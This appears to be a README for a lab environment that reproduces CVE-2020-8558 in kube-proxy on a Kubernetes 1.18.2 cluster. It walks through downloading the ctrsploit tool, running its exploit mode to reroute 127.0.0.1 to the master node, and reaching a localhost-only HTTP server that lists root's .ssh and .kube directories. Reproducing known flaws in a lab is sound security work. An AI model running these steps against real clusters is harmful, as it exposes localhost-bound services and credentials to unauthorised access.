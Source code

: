 # kubernetes kube-proxy cve-2020-8558

* dqd:
  * ssst0n3/docker_archive:cve-2020-8558-master -> ssst0n3/docker_archive:cve-2020-8558-master_v0.1.0 -> ssst0n3/docker_archive:kubernetes-v1.18.2-master_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2020-8558-master -> ssst0n3/docker_archive:ctr_cve-2020-8558-master_v0.1.0 -> ssst0n3/docker_archive:ctr_kubernetes-v1.18.2-master_v0.1.0

## usage

```shell
$ cd vul/cve-2020-8558
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

terminal 1

```shell
$ ssh cve-2020-8558-master
root@kubernetes-1-18-2:~# python3 -m http.server -b 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/) ...

```

terminal 2

```shell
root@kubernetes-1-18-2-worker:~# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@kubernetes-1-18-2-worker:~# chmod +x /usr/bin/ctrsploit 
root@kubernetes-1-18-2-worker:~# ctrsploit vul 8558 c
INFO[0000] 10.0.2.16 is vulnerable                      
WARN[0000] failed to check cve-2020-8558 for kubernetes-1-18-2: target IP is not a valid IP: kubernetes-1-18-2 
[Y]  cve-2020-8558	

root@kubernetes-1-18-2-worker:~# ctrsploit vul 8558 x --ip 10.0.2.16
INFO[0000] 10.0.2.16 is vulnerable                      
WARN[0000] failed to check cve-2020-8558 for kubernetes-1-18-2: target IP is not a valid IP: kubernetes-1-18-2 
INFO[0000] exploiting 10.0.2.16                         
INFO[0000] route not found in table main, skipping delete 
INFO[0000] [+] ip ro del 127.0.0.1/32 table local       
INFO[0000] [+] ip ro add 127.0.0.1/32 via 10.0.2.16     
root@kubernetes-1-18-2-worker:~# curl --interface eth1 127.0.0.1:8080
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href=".bashrc">.bashrc</a></li>
<li><a href=".cache/">.cache/</a></li>
<li><a href=".kube/">.kube/</a></li>
<li><a href=".profile">.profile</a></li>
<li><a href=".ssh/">.ssh/</a></li>
</ul>
<hr>
</body>
</html>
```

## network topology

* eth0: Provides internet connectivity; ports 22 and 6443 are exposed via eth0.
* eth1: Used for inter-VM communication; isolated from the internet.

```
                            ┌─────────┐
                            │ Host/NAT│
                            └────┬────┘
                                 │
         ┌───────────────────────┴────────────────────────┐
         │                                                │
         │ eth0 10.0.2.15 (NAT)      eth0 10.0.2.15 (NAT) |
    ┌────▼────┐                                      ┌────▼────┐
    │ master  │                                      │  worker │
    │        eth1 10.0.2.16/24   ⇆    10.0.2.17/24 eth1        |
    └─────────┘                                      └─────────┘
```

## env details

```shell
$ ./ssh
root@kubernetes-1-18-2:~# helm version
version.BuildInfo{Version:"v3.2.4", GitCommit:"0ad800ef43d3b826f31a5ad8dfbb4fe05d143688", GitTreeState:"clean", GoVersion:"go1.13.12"}
root@kubernetes-1-18-2:~# kubectl version
Client Version: version.Info{Major:"1", Minor:"18", GitVersion:"v1.18.2", GitCommit:"52c56ce7a8272c798dbc29846288d7cd9fbae032", GitTreeState:"clean", BuildDate:"2020-04-16T11:56:40Z", GoVersion:"go1.13.9", Compiler:"gc", Platform:"linux/amd64"}
Server Version: version.Info{Major:"1", Minor:"18", GitVersion:"v1.18.2", GitCommit:"52c56ce7a8272c798dbc29846288d7cd9fbae032", GitTreeState:"clean", BuildDate:"2020-04-16T11:48:36Z", GoVersion:"go1.13.9", Compiler:"gc", Platform:"linux/amd64"}
root@kubernetes-1-18-2:~# containerd --version
containerd github.com/containerd/containerd v1.3.3 d76c121f76a5fc8a462dc64594aea72fe18e1178
root@kubernetes-1-18-2:~# runc --version
runc version 1.0.0-rc10
spec: 1.0.1-dev
root@kubernetes-1-18-2:~# uname -a
Linux kubernetes-1-18-2 5.4.0-216-generic #236-Ubuntu SMP Fri Apr 11 19:53:21 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
root@kubernetes-1-18-2:~# cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

## build

see [kubernetes/v1.18.2-cluster](../../kubernetes/v1.18.2-cluster/)
